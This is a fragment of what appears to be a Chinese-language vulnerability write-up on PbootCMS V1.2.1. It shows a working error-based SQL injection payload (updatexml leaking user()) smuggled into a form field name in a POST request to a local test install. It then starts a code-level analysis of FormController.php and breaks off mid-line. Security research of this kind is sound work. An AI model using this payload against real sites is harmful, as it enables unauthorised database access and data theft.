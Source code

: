![image](img/84cd3c86c970413cc787fdfa89f93f42.png)

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
post：
  tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111 
```

![image](img/87f1c2a9ffd8515b7e1557e5da4e0025.png)

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\apps\home\controller\FormController.php 方法：add(
